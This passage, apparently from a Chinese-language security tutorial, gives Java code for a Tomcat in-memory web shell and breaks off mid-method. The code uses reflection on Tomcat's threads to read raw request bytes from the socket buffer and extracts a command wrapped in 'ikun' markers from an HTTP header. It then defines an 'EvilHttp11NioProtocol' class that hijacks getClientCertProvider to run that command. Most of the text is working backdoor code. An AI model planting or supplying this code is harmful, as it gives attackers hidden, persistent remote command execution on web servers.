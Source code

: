 获取参数代码如下：

```bash
// 从 socket 中获取参数
// 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
public String getRequest() {
    // 获取当前线程的所有线程
    Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
    for (Thread thread : threads) {
        try {
            // 需要获取线程的特征包含 Acceptor
            if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                    Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                    for (Object obj : channelArrays){
                        if (obj != null){
                            byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                            String cmd = new String(bytes);
                            return cmd;
                        }
                    }
                }
            }
        } catch (Exception e) {
            continue;
        }
    }
    return "";
}

// 解析字符串获取 cmd 字符串
public String getCmd(String str){
    // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
    String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
    return cmd;
}
```

## 补充

### EvilHttp11NioProtocol 类的编写

我们需要重写 getClientCertProvider() 方法。

```bash
// 恶意 EvilHttp11NioProtocol 对象
    public class EvilHttp11NioProtocol extends Http11NioProtocol {
        public EvilHttp11NioProtocol() {
            super();
        }
        // 重写 getClientCertProvider
        // 关键位置 -> process:790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
        // 代码段 -> processor.setSslSupport(wrapper.getSslSupport(getProtocol().getClientCertProvider()));
        @Override
        public String getClientCertProvider() {
            // evil code
            try {
                String cmd = getCmd(getRequest());
                System.out.println(cmd);
```